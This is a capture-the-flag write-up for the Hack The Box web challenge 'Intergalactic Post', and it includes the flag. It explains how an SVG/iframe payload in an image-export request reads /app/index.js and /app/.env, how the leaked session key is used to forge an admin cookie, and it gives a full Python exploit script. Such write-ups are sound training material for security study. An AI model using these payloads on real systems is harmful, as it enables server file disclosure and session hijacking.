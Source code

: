 



## Intergalactic Post



## Challenge Author(s):

Ulysses

## Description:

`
The biggest intergalactic newsletter agency has constantly been spreading misinformation about the energy crisis war. Bonnie's sources confirmed a hostile takeover of the agency took place a few months back, and we suspect the Golden Fang army is behind this. Ulysses found us a potential access point to their agency servers. Can you hack their newsletter subscribe portal and get us entry?`

## Target: docker ip on demand

## Difficulty/Points: 300/easy

## Flag: HTB{inj3ct3d_th3_tru7h}

## Challenge

The challenge is presented with a login form and a registration form. We can easily register on the site and gain access to a page that handles images. We can upload images and get a result. At the bottom, an important piece of information is revealed, namely that if we log in as admin then we can see secret content.

# Solution 

I adopted a black box strategy, i.e. without having the slightest knowledge of the source of the application, I studied all the inputs they could give me. A web page can have several inputs (in the url, in the forms, in the headers, in the cookies) and I was mainly interested in the login and registration forms. I tried all combinations progressing towards increasingly targeted SQLi and XSS attacks without success. After a number of consistent payloads that I sent, I realised that this was not where the problem lay. I was left with the url (which in this case did not have any special get parameters and had no other directories to show using e.g. wfuzz which among other things was a forbidden tool by the rules so I always recommend reading the rules of each CTF), the cookie and the headers (they too in this case were not very relevant). I focus on the cookie and notice that the cookie's form was of the type session=base64 and this makes me think I have to decode it and in fact it returns something like {"username": "giovixo97"} . There were 2 cookies and 1 of them in particular made me think of a signature. My goal might be to steal the admin cookie, but there's a problem: what key do I use to encrypt the cookie? This question will be answered immediately. Going into the details of the web application we notice that intercepting with burp the export request made with the image form the post contains a paylaod referring to svg images. Recognising this type of image then I try to look for something malicious to use. With svg various paylaods can be found on the web and among those that work is the one that allows LFI. after obtaining LFI I read the server backend a bit. Unfortunately here you have to do a bit of guessing and figure out which folders to use. If it is docker (as hack the box points out when he creates the challenge) then usually the web apps are placed in the /app folder and the main file usually has the name index.js. So ultimately by reading /app/index.js we see the backend. Unfortunately if this assumption failed, I had no other ideas to go on, so I would have to somehow brute force the application by trying to figure out the directory structure. From the backend I realise that a special file is used, namely .env. This file is special because it will probably contain a <key,value> pair of something and in fact we find the admin's session key with which he encrypts his cookies. Having done this, it is enough to forge a cookie of the admin and access the web page. Below is the solving script.

```python
import requests
#stage 1: evil-svg LFI for index.js
burp0_url = "http://68.183.37.6:31002/api/export"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://68.183.37.6:31002/dashboard", "Content-Type": "application/json", "Origin": "http://68.183.37.6:31002", "DNT": "1", "Connection": "close"}
burp0_json={"svg": "<svg-dummy></svg-dummy> <iframe src='file:///app/index.js' width='100%' height='1000px'></iframe> <svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
#stage 2: evil-svg LFI for index.js displayed
burp0_url = "http://68.183.37.6:31002/exports/12e970eb82d261f08c4b8a9a2e2dc083.png"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "image/avif,image/webp,*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "DNT": "1", "Connection": "close", "Referer": "http://68.183.37.6:31002/exports/5d53fa46b06017fd4ef46982dfb6d323.png"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
#stage 1: evil-svg LFI for .env
burp0_url = "http://68.183.37.6:31002/api/export"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://68.183.37.6:31002/dashboard", "Content-Type": "application/json", "Origin": "http://68.183.37.6:31002", "DNT": "1", "Connection": "close"}
burp0_json={"svg": "<svg-dummy></svg-dummy> <iframe src='file:///app/.env' width='100%' height='1000px'></iframe> <svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
#stage 1: evil-svg LFI for .env displayed
burp0_url = "http://68.183.37.6:31002/exports/6a9025bd866699d24a2c9cf9a4e36273.png"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "image/avif,image/webp,*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "DNT": "1", "Connection": "close", "Referer": "http://68.183.37.6:31002/exports/5d53fa46b06017fd4ef46982dfb6d323.png"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```

the thing to do after this script is to view the cookie obtained from the png and set the cookie to see the flag in the site's home logged in as admin